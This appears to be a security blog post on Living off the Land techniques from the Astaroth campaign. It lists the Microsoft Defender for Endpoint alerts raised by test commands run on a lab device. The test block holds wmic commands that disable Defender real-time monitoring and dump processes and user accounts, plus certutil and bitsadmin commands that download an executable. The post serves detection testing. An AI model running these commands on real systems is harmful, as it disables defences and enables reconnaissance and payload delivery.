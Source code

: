 # LotL techniques with MDE detection - Part 1 
Hello everyone,

For a long time, I have seen Living off the Land (LotL) techniques discussed in Microsoft Security blogs, and recently I have been learning various attack techniques, especially those related to LotL. 
That's why I believe this is a great time to share my learning and detection insights in MDE through this blog.

### What is living off the land ?

[Microsoft Security blog](https://www.microsoft.com/en-us/security/blog/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/) explains that “living off the land”, as malware only uses resources already available in the operating system. 

I will show you how LotL techniques were used by attackers, based on past Microsoft Security blogs.


### [Astaroth “living-off-the-land”](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
This is a somewhat older blog, but I love it because it includes some Windows LotL-related attacks in the attack flow.

1. LNK
2. WMI
3. Bitsadmin
4. Certutil

**LNK** : One common pattern is that an attacker creates a LNK file with a target path that executes a PowerShell command to download and run a malicious script from the internet.

**WMI** : Query the operating system (OS) for specific properties and then formats the output using a custom format file located at a URL.

**Bitsadmin / Certutil** : The commands bitsadmin and certutil can be exploited in cyberattacks, particularly in the context of malware delivery and command-and-control (C2) activities, such as downloading and uploading files.

![image](https://github.com/user-attachments/assets/f3ba69a1-f9bf-4300-9b03-551917f9875f)
> Astaroth “living-off-the-land” attack chain showing multiple legitimate tools abused
---

## Microsoft Defender for Endpoint detection alerts

**Test commands**
```cmd
wmic process call create "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command \"Set-MpPreference -DisableRealtimeMonitoring 1\""
wmic process get caption,executablepath,commandline /format:csv  > %Temp%\commands.csv
wmic useraccount get /ALL /format:csv > %Temp%\UserAccounts.csv
wmic qfe get description,installedOn /format:csv > %Temp%\installedapp.csv
wmic process call create "cmd.exe /c certutil -urlcache -f \"https://aka.ms/ioavtest\" \"%TEMP%\\validatecloud.exe\""
wmic process call create "cmd.exe /c bitsadmin /transfer mydownloadjob /download /priority high \"https://aka.ms/ioavtest\" \"%TEMP%\\validatecloud.exe\""
```

***The pentest device was protected by Defender Antivirus and Microsoft Defender for Endpoint, with Tamper Protection turned on.***

These alerts have been detected by MDE.
- Suspicious Process Discovery
- Suspicious User Account Discovery
- Anomalous account lookups
- Suspicious WMI process creation
- Suspicious file creation by BITSAdmin tool
- Use of living-off-the-land binary to run malicious code
- Suspicious behavior by cmd.exe was observed

![image](https://github.com/user-attachments/assets/ef4c422e-d4c9-482a-84cc-1c4ab75e46eb)

![image](https://github.com/user-attachments/assets/b58e251a-ca2f-4df5-9d4a-47dc51a5a747)

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
